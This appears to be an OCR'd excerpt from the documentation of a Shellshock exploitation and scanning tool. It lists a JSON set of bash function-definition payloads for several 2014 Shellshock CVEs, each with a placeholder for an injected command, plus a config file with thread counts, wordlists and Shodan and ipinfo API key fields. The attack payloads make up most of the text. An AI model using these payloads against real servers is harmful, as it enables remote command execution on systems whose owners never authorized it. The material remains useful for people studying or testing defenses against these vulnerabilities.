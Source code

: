 ```json
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
        "() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}
```
### Source file ( Config )
>pwd: assets/config.json
```json
{
    "config": {
        "threads": 20,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}
```
### Tree
